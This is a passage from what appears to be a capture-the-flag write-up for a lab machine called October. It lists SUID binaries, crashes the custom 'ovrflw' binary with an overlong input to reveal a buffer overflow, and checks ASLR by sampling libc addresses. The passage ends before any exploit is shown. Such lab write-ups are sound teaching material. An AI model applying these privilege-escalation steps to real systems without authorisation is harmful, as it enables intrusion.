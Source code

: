     -rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
    -rwsr-sr-x 1 libuuid libuuid 17996 Nov 24  2016 /usr/sbin/uuidd
    -rwsr-xr-x 1 root root 7377 Apr 21  2017 /usr/local/bin/ovrflw
    ...[snip]...
    

The output is quite long, but the SUID binary section jumps out at me,
specifically `/usr/local/bin/ovrflw`.

If I run the program without arguments, it tells me to input a string:

    
    
    www-data@october:/usr/local/bin/$ ./ovrflw
    Syntax: ./ovrflw <input string>
    

If I pass in a short string, the program doesn’t do anything. If I pass in 500
As, it seg faults:

    
    
    www-data@october:/usr/local/bin/$ ./ovrflw AAAAAAAAAA
    www-data@october:/usr/local/bin/$ ./ovrflw $(python -c 'print "A"*500')
    Segmentation fault
    

Seg fault is a good indications that I should look into a buffer overflow.

### ovrflw Protections

First, I’ll check ASLR on the host. I can see from
`/proc/sys/kernel/randomize_va_space` that it is on. I can also see that when
I run `ldd` on the binary, the libc address changes each time:

    
    
    www-data@october:/home/harry$ cat /proc/sys/kernel/randomize_va_space 
    2
    
    www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
    www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
    www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
    www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ac000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ab000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7609000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d6000)
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758d000)
    